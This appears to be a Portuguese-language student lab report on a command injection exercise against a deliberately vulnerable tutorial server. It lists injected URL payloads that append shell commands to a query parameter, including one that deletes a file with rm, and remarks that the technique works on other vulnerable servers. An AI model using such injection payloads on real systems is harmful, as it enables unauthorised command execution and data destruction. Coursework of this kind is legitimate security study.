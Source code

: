 # Prática De Command Injection

Foi apresentado o conceito de Command Injection na sala de aula pela dupla que ficou
responsável.

Command Injection é um ataque de execução de comandos no sistema operacional do servidor.

Foi realizado um ataque no servidor vulnerável disponibilizado pelo tutoral: http://commandinjection.herokuapp.com/

A partir das atividades propostas pela prática:

Listei os arquivos do diretório:

    http://commandinjection.herokuapp.com/?dir=;ls

Apaguei um dos arquivos dentro da pasta /files

    http://commandinjection.herokuapp.com/?dir=files;rm%20composer.json

Criei um arquivo com o nome davicedraz.txt dentro da pasta /folder

    http://commandinjection.herokuapp.com/?dir=folder;echo "Dj fazendo a prática de segurança" > dj.txt

Escolhi um diretório qualquer na raiz do servidor e listar seu conteúdo.

    http://commandinjection.herokuapp.com/?dir=files;cat dj.txt

![Print Tela](print.png)

Tutorial bastante fácil de entender e interessante. O mesmo pode ser usado em outros servidores, que possuem a vulnerabilidade.